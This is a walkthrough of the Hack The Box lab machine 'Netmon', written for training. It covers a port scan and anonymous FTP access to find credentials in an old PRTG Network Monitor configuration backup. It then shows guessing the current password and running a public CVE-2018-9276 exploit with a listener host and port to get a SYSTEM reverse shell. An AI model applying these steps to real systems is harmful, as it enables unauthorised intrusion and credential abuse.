






- Machine Name: Netmon
- Difficulty: Easy
- OS type: Windows

### Port Scanning - Service & Version Enumeration

```bash

PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_03-04-19  02:12PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -6m46s, deviation: 0s, median: -6m46s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-03-04 14:13:48
|_  start_date: 2019-03-04 12:43:48

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.79 seconds
```

## Enumeration

### Port 80/HTTP

port 80 is open on machine it’s running website let’s visit it in browser



Looks like it is running PRTG Network Monitor (NETMON), same as machine name!, let’s give it quick google search, we found that it might be vulnerable to Authenticated RCE, but we don’t have the username and password, we found default credentials is **`*prtgadmin:prtgadmin`** but bad luck it is not working*

let’s keep this information in back pocket and move to another service

### Port 21/FTP

port 21 (FTP) is open on the machine let’s try to login anonymously



→ User.txt can be founded at the **`Users/Public/Desktop`** 

let’s Explore PRTG network monitor further, as we have access to filesystem what about finding configuration files on the system we found that PRTG network monitor (netmon) stores it configuration to `C:\ProgramData\Paessler\PRTG Network Monitor` [https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data]

we found configuration file backup in `C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old.bak` 



let’s download it to our kali machine by,

```bash
get "PRTG Configuration.old.bak"
```



nice we founded password of user, let’s login to PRTG Network Monitor (Netmon) using these credentials, but it doesn’t worked

However, on thinking a minute, the creds are from the backup of an old file, and end in “2018”. I’ll try 2019, and it works, bringing me to the PRTG dashboard for System Administrator:



now as we have a valid set of credentials let’s use the exploit from github → https://github.com/A1vinSmith/CVE-2018-9276

execute exploit

```bash
python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.14 --lport 443 --user prtgadmin --password PrTg@dmin2019
```



Fresh SYSTEM Shell and box is rooted!!